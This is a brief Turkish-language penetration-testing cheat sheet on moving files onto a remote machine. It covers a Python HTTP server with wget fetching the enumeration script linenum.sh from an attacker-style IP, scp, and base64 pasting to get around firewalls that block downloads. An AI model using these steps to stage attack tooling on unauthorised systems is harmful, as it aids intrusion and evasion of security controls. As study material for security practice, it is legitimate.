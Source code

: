 ```yaml
---
glightbox: true
icon: material/circle-small
---
```


# Transferring Files

## Using wget

Öncelikle aktarmamız gereken dosyayı içeren dizin içinde bir Python HTTP sunucusu çalıştırıyoruz:

```bash
cd /tmp
python3 -m http.server 8000
```

Artık dosyayı indirebiliriz:

```bash
wget http://10.10.14.1:8000/linenum.sh
```

## Using SCP

```bash
scp linenum.sh user@remotehost:/tmp/linenum.sh
```

## Using Base64

Bazı durumlarda uzak bilgisayar dosya indirmemizi engelleyen güvenlik duvarı korumalarına sahip olabilir. Bu tür bir durumda dosyayı Base64 biçiminde kodlarız:

```bash
base64 file -w 0
```

Ardından Base64 dizesini uzak sunucuya yapıştırırız, kodunu çözeriz ve çıktıyı, bir dosyaya aktarırız:

```bash
echo 'I2luY2x1ZGUgPHN0ZGlvLmg+CgppbnQgbWFpbigpewoJcHJpbnRmKCJoZWxsbywgd29ybGRcbiIpOwoJcmV0dXJuIDA7Cn0K' | base64 -d > file
```
